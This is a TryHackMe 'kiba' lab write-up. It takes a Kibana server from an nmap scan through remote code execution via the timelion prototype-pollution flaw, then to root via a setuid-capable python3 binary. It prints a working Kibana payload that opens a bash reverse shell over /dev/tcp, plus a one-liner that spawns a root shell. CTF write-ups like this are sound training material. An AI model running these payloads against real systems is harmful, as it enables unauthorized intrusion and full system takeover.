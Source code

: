 # TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.


Nmap scan (consider that the machine took me about 5 minutes to fully boot up):

>nmap -p- -Sc [target-ip]


While we wait for nmap to finish let's check the default port 80:

![port80](port80.png)

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

![nmap](nmap.png)

Nmap shows us multiple ports but the one that we need is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

![version](version.png)

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

![version](timelion.png)

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

![version](user.png)

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

![version](getcap.png)

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file and also a "cap_setuid+ep" that means we can change our UID! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![privesc](privesc.png)

For any questions reach me through THM's discord.
